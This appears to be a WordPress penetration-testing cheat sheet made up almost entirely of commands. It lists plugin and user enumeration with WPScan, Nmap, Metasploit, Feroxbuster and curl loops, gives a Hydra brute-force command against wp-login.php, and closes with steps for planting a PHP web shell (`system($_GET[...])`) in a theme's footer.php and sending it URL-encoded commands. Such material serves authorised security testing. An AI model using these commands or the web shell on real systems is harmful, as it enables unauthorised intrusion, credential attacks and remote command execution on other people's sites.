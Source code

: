 ### **Introduction**

WordPress is an open-source content management system (CMS) that enables users to create, manage, and modify content on a website without needing specialized technical knowledge. Originally launched in 2003 as a platform primarily for blogging, WordPress has evolved into a robust tool for building various types of websites, from simple blogs to comprehensive business sites and online stores.

### **Plugin Enumeration Techniques**

Vulnerable plugins are a primary attack vector in WordPress and represent a significant security risk.

1.  Enumerating Plugins with WPScan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ -e vp --plugins-detection aggressive`
    
2.  Identifying Plugins with a Custom Bash Script:
    
    ```bash
    for plugin in $(cat pluginlist.txt); do 
      response=$(curl -s -o /dev/null -w "%{http_code}" https://[WORDPRESS-DOMAIN]/wp-content/plugins/$plugin/)
      if [[ "$response" -eq 200 ]]; then 
        echo "Plugin found: $plugin"; 
      fi; 
    done
    ```
    
3.  Detecting Plugins with Nmap Scripts:  
    `nmap -sV --script http-wordpress-plugins https://[WORDPRESS-DOMAIN]/`
    
4.  Scanning Plugins with Metasploit:  
    `auxiliary/scanner/http/wordpress_plugins`
    
5.  Brute Forcing Plugin Paths with Feroxbuster:  
    `feroxbuster -u https://[WORDPRESS-DOMAIN]/wp-content/plugins -w plugins.txt`
    

### **User Enumeration Techniques**

1.  Enumerating Users with a Bash Script:
    
    ```bash
    for i in {1..100}; do 
       curl -s -L -i https://[WORDPRESS-DOMAIN]/wordpress?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; 
    done
    ```
    
2.  Bypassing Restrictions for User Enumeration:  
    `http://[WORDPRESS-DOMAIN]/?x&author=1`
    
3.  Brut-forcing Usernames with Hydra:  
    `hydra -L userlist.txt -p test "https://[WORDPRESS-DOMAIN]/" http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`
    
4.  Scanning Users with WPScan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ --enumerate u`
    
5.  Enumerating Users with Metasploit:  
    `use auxiliary/scanner/http/wordpress_enum_users`
    

### **WPScan Commands**

1.  Performing a Comprehensive Website Scan:  
    `wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://[WORDPRESS-DOMAIN]/ --plugins-detection aggressive --api-token [API-TOKEN] --passwords /usr/share/seclists/Passwords/probable-v2-top1575.txt`
    
2.  Conducting a Detailed Vulnerability Scan:  
    `wpscan --url https://[WORDPRESS-DOMAIN]/ --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log`
    

### **Injecting a Shell into a WordPress Theme**

To establish a reverse shell through a WordPress theme, you modify theme files to execute arbitrary system commands. This can be done by adding PHP code to template files like `404.php` or `footer.php`. Follow these detailed steps to implement and use a reverse shell:

1.  Choose a template file within the WordPress theme that is accessed frequently. For example, `footer.php` is included on every page, making it a good place.
    
2.  Insert the following PHP code at the top of the file:  
    `<?php system($_GET['hackfast']); ?>`
    
3.  Replace the original file with your modified version on your WordPress server. Make sure you back up the original file first in case you need to restore it later.
    
4.  To execute commands, Access the modified file through a browser or use a command-line tool like curl:  
    `curl -s 'https://[WORDPRESS-DOMAIN]/path/to/modified/template?hackfast=[URL_ENCODED_COMMAND]'`
    
5.  URL encode your commands to ensure they are interpreted correctly by the server. For instance, spaces are represented as `%20` and pipes `|` as `%7C`.
    
6.  Here an example of encoding and executing the command `id | grep uid | cut -f4 -d">"`:  
    `curl -s https://[WORDPRESS-DOMAIN]/path/to/modified/template?hackfast=id%20%7C%20grep%20uid%20%7C%20cut%20-f4%20-d%22%3E%22`
    